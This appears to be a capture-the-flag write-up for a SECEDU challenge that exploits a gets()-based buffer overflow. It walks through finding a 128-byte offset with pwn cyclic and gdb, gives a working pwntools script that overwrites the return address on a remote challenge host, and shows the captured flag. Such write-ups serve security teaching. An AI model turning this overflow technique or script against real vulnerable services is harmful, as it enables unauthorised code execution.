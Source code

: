 ### Overflowing with files

Given chal, which is an ELF
run `readelf -s chal`, I'm looking for vulnerable functions in dynamic library or maybe some user-defined functions
There is gets function, so this is another buffer overflow problem.

Setup another pwned2.py, with same code structure as portal

Run the ELF, how nice that they give the address we need to give to rip (return instruction pointer), so in pwntools, read the input prompt, extract that hex address and put in into a payload

This time, I use `pwn cyclic 400` to generate a cyclic text, then run it in gdb (or gef), then `pwn cyclic -l <pattern>` where pattern is the thing that replaces the address in initial prompt. This gets the offset of 128.

Some manouvering with hex address and endianness, voila.

SECEDU{h0w_c4n_u_0v3rfl0w_with_0n3_f1le?}
```
from pwn import *

host = "chals.secedu.site"
port = 5001
offset = 128

elf = ELF("./chal")
# this for debugging purpose, real deal is remote()
# p = elf.process()
p = remote(host, port)

info = p.recv()
addr = info.split(b'\n')[0].split()[-1]
addr = int(addr.decode(), 16)
log.info(info)

payload = b'O' * offset + p32(addr)

p.sendline(payload)
log.success(p.recv())
```